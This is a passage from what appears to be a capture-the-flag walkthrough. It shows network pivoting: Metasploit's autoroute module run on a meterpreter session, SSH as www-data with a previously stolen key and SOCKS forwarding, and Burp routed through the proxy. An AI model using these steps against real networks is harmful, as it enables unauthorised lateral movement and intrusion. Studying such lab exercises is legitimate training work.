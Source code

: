 For this we us the routing feature set the session to our second meterpreter, set the subnet to the pki subnet and run the module.

```
msf6 post(multi/manage/autoroute) > set session 2
session => 2
msf6 post(multi/manage/autoroute) > set subnet 192.168.254.0
subnet => 192.168.254.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module.
[*] Running module against 172.20.0.10
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.20.0.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.254.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```

To reach the subnet from our local machine with our tools we also use our previously gathered ssh key for www-data and connect to the server with dynamic socks portforwarding by using the `-D 1080` command line option.

```
$ ssh -i id_rsa www-data@10.129.78.9 -D 1080 -p 2222
The authenticity of host '[10.129.78.9]:2222 ([10.129.78.9]:2222)' can't be established.
ECDSA key fingerprint is SHA256:SO5uMKk4fPWk/kDc0dLD5Uf7dlyIes4r6s26waZlxkQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.129.78.9]:2222' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.19.0-16-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Jun 14 08:00:30 2021 from 10.10.14.4
www-data@web:~$
```

For better access in the browser to the pki host and to fully utilize burp we add the socks proxy to our burp configuration at the bottom of the `User options` tab.

[![burp_config](/img/static/burp_config.png)](/img/static/burp_config.png)
